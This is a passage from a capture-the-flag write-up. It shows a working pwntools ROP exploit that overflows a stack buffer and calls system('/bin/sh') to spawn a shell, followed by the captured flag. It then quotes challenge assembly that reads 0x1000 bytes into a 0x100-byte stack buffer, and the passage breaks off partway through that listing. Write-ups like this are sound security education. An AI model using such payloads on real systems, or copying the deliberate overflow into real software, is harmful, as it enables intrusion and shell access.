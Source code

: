 ```python
# this is needed on remote because of the MOVAPS issue - to fix this just add a ret
# https://blog.wohin.me/posts/nus-greyhats-welcome-ctf-2021-wp-pwn/
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
log.info(f"pop rdi: {hex(pop_rdi)}")
binsh = next(elf.search(b"/bin/sh\x00"))
log.info(f"binsh: {hex(binsh)}")
system_plt = elf.plt['system']
log.info(f"system plt: {hex(system_plt)}")
offset = 32
offset += 8
payload = flat(
    b"A"*offset,
    ret,
    pop_rdi,
    binsh,
    system_plt
)
print(payload)
p.recvuntil(b">")
p.sendline(payload)
p.interactive()
# sctf{N0W_1_C4N_T3LL_T0P_FR0M_B0TT0M}
```

## bonus: SieberrrROP
i have never seen a binary distributed with assembly code instead of plain C, but it was very interesting and I learned 2 new things from pwning and getting this flag!

unfortunately i wasnt able to get it during the ctf and i got rly bummed about it :C buuut it's okay the more you learn!!

```asm
global _start

section .text
_start:
    ; Reserve 0x100 bytes on the stack for local buffer
    enter 0x100, 0x0

    ; Call the timer function to set an alarm
    call set_alarm

    ; Syscall: write(stdout, msg, msg_len)
    mov rax, 0x1          ; syscall number for write
    mov rdi, rax          ; file descriptor 1 (stdout)
    lea rsi, [rel msg]    ; pointer to message
    mov edx, msg_len      ; message length
    syscall

    ; Syscall: read(stdin, rsp, 0x1000)
    xor eax, eax          ; syscall number 0 (read)
    xor edi, edi          ; file descriptor 0 (stdin)
    mov rsi, rsp          ; buffer on stack
    mov edx, 0x1000       ; number of bytes to read
    syscall

    leave
    ret

set_alarm:
    ; Syscall: alarm(15)
    mov edi, 15
    mov eax, 37           ; syscall number for alarm
```